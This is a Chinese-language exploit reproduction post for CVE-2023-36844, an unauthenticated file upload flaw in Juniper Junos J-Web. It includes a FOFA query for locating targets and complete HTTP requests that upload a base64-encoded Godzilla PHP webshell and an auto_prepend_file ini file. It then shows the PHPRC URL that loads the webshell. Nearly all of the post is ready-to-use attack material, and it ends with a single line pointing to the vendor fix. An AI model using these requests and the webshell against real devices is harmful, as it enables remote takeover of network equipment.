

# Junos webauth\_operation.php 文件上传漏洞复现（CVE-2023-36844）

### 0x01 产品简介

  Junos 是 Juniper Networks 生产的一款可靠的高性能网络操作系统。

### 0x02 漏洞概述

   Junos webauth\_operation.php接口处存在文件上传漏洞，未经身份认证的攻击者可利用 Junos 操作系统的 J-Web 服务 /webauth\_operation.php 路由上传 php webshell，通过 ?PHPRC 参数进行包含，进入控制整个 web 服务器。

### 0x03 复现环境

FOFA：app="JUNIPer-Web-Device-Manager"


### 0x04 漏洞复现 

Exp:

```cobol
POST /webauth_operation.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Connection: close

rs=do_upload&rsargs[0]=[{"fileData":"data:text/html;base64,PD9waHAgQHNlc3Npb25fc3RhcnQoKTtAc2V0X3RpbWVfbGltaXQoMCk7QGVycm9yX3JlcG9ydGluZygwKTtmdW5jdGlvbiBlbmNvZGUoJEQsJEspe2ZvcigkaT0wOyRpPHN0cmxlbigkRCk7JGkrKyl7JGM9JEtbJGkrMSYxNV07JERbJGldPSREWyRpXV4kYzt9cmV0dXJuICREO30kcGFzcz0ncGFzcyc7JHBheWxvYWROYW1lPSdwYXlsb2FkJzska2V5PSczYzZlMGI4YTljMTUyMjRhJztpZihpc3NldCgkX1BPU1RbJHBhc3NdKSl7JGRhdGE9ZW5jb2RlKGJhc2U2NF9kZWNvZGUoJF9QT1NUWyRwYXNzXSksJGtleSk7aWYoaXNzZXQoJF9TRVNTSU9OWyRwYXlsb2FkTmFtZV0pKXskcGF5bG9hZD1lbmNvZGUoJF9TRVNTSU9OWyRwYXlsb2FkTmFtZV0sJGtleSk7aWYoc3RycG9zKCRwYXlsb2FkLCJnZXRCYXNpY3NJbmZvIik9PT1mYWxzZSl7JHBheWxvYWQ9ZW5jb2RlKCRwYXlsb2FkLCRrZXkpO31ldmFsKCRwYXlsb2FkKTtlY2hvIHN1YnN0cihtZDUoJHBhc3MuJGtleSksMCwxNik7ZWNobyBiYXNlNjRfZW5jb2RlKGVuY29kZShAcnVuKCRkYXRhKSwka2V5KSk7ZWNobyBzdWJzdHIobWQ1KCRwYXNzLiRrZXkpLDE2KTt9ZWxzZXtpZihzdHJwb3MoJGRhdGEsImdldEJhc2ljc0luZm8iKSE9PWZhbHNlKXskX1NFU1NJT05bJHBheWxvYWROYW1lXT1lbmNvZGUoJGRhdGEsJGtleSk7fX19Pz48IS0t","fileName":"1.php","csize":675}]
```

PS：传的是哥斯拉php,需要将内容base64编码后上传


上传ini配置为文件包含做准备

文件内容

```cobol
auto_prepend_file="/var/tmp/回显的上传文件名"
```

将其base64编码 

编码后的特殊符号＝号需要进行url编码

```cobol
POST /webauth_operation.php HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Connection: close

rs=do_upload&rsargs[0]=[{"fileData":"data:plain/text;base64,编码的ini文件内容","fileName":"1.ini","csize":97}]
```

 然后通过 ?PHPRC 参数进行文件包含，验证马子是否可解析

```cobol
http://your-ip/webauth_operation.php?PHPRC=/var/tmp/回显的ini文件名
```


尝试连接

### 0x05 修复建议

厂商已发布了漏洞修复程序，请及时关注更新：https://supportportal.juniper.net/JSA72300
